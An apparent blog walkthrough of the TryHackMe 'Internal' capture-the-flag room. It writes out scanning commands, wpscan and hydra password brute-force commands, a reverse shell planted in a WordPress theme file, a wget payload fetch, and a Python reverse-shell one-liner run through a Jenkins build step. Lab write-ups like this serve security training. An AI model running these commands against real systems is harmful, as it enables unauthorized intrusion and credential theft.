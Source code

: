 ```yaml
---
slug: internal-walkthrough
title: TryHackMe - Internal - Walkthrough
authors: bw
tags: [learning, internal, tryhackme, walkthrough]
---
```


This is a walkthrough of the [TryHackMe][thm] room: [Internal][internal]. Let’s get started!

This room is designed to be as close to a “real-world” pentest as possible. It comes with a Scope of Work (SOW) so make sure to read through that, and understand it. Then let’s start with enumeration.

# User Flag
Let’s start by scanning the server using rustscan. This is a much faster scanner than `nmap`, and I like using it because it scans all 65535 ports and then passes the open ones to `nmap`. You can find more about it [here][rustscan].

rustscan command: `rustscan -a <machine_ip> -- -A -A`

![i1](/static/img/thm/internal/i1.webp)

Looks like we have 22 and 80 open. Let’s visit the website!

![i2](/static/img/thm/internal/i2.webp)

Looks like we have a default page. We can run `dirsearch` to enumerate directories.

`dirsearch -u http://<machine_ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e html,php -t 100`

Right away we find a few options. Let’s check them out.
**NOTE:** Make sure to add the `<machine_ip> internal.thm` to your `/etc/hosts` file or some of the sites may not work.

We find a `/wordpress` directory. When we navigate there, we find a link for a login page.

![i3](/static/img/thm/internal/i3.webp)

At `/blog` we find the blog page of the wordpress site. There also is a `/phpmyadmin` page. Wow! Lot’s to work with here. I am going to leave `dirsearch` running in the background and start with WordPress. Let’s scan it! I am going to use `wpscan` for this. This can be found [here][wpscan].

`wpscan --url http://internal.thm/wordpress -e u`

![i4](/static/img/thm/internal/i4.png)

If you take a look at the enumerated users, we see an `admin` user. Let’s see if we can brute force the login!

`wpscan --url http://internal.thm/wordpress -U admin -P rockyou.txt`

![i6](/static/img/thm/internal/i6.png)

Let’s login!

Once we login, we know we can always do a reverse shell! Let’s get the reverse-shell from [here][rev-sheet]. Change the IP and Port.

Now navigate to the **Theme Editor**. Select **404 Template** from the **Theme Files**

Paste in your reverse-shell code. Start a netcat listener. `nc -nvlp 1234`

Navigate to:

`http://internal.thm/wordpress/wp-content/themes/twentyseventeen/404.php`

Let’s just start by looking around. I stumble upon the `/opt` folder and there is an interesting file: `wp-save.txt` We find some credentials in here!

![i8](/static/img/thm/internal/i8.png)

Let’s try to ssh into the machine with those credentials!

We are in! Let’s see if there is a `user.txt` flag!

![i9](/static/img/thm/internal/i9.png)

# Root Flag
Now we need to do some privilege escalation. Let’s use [LinPEAS][linpeas] for this! Get it onto the system by starting a python http server:

`python3 -m http.server 80`

And then download onto the server with `wget`

`wget http://<thm_ip>/lin.sh`

Make sure to `chmod +x lin.sh` and then run it: `./lin.sh`

That didn’t come back with a ton of useful info, but there was a lot there. I did see a `jenkins.txt` in the `/home/aubreanna` directory earlier.

![i10](/static/img/thm/internal/i10.png)

We may be able to access this with `ssh` tunneling! On our machine:

`ssh -L 1235:172.17.0.2:8080 aubreanna@<machine_ip>`

In your browser, navigate to: `localhost:1235`

We have a login page!

![i11](/static/img/thm/internal/i11.png)

Let’s checkout a POST request to the server. We can try to brute force the login with `hydra`

![i12](/static/img/thm/internal/i12.png)

Use this info to create our `hydra` command:

```bash
hydra -l admin -P rockyou.txt 127.0.0.1 -s 1235 -V -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"
```

We found credentials!

![i13](/static/img/thm/internal/i13.png)

Login with those credentials. Let’s create a New Project. Name it whatever you want, and navigate to the **Build** tab and select: **Execute shell**. Now let’s have Jenkins execute a reverse shell back to our machine (If one doesn’t work, there are many others you can try: [Link][rev-sheet]):

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<machine_ip",2345));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**Save** this build. Now start a netcat listener on your machine: `nc -lvnp 2345`

Select **Build Now** in **Jenkins**.

Success! Now let’s look around! Eventually, we find a `note.txt` in `/opt`

![i14](/static/img/thm/internal/i14.webp)

Let’s `ssh` into the machine with the `root` credentials!

Now let’s print the `root.txt` flag!

![i15](/static/img/thm/internal/i15.png)

# Review
Wow. That is all I can say. This was definitely a tough one for me and took a ton of patience and looking around. Not only with the various points of entry that can eat up a lot of time, but also having to research some new ways to exploit the machine! Great job to the creator: TheMayor!

# References
[TryHackMe][thm] | [Internal Room][internal] | [Rustscan][rustscan] | [WPScan][wpscan] | [LinPEAS][linpeas] | [Reverse Shell Cheat Sheet][rev-sheet]

[thm]: https://tryhackme.com
[internal]: https://tryhackme.com/r/room/internal
[rustscan]: https://github.com/RustScan/RustScan
[wpscan]: https://github.com/wpscanteam/wpscan
[linpeas]: https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS
[rev-sheet]: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet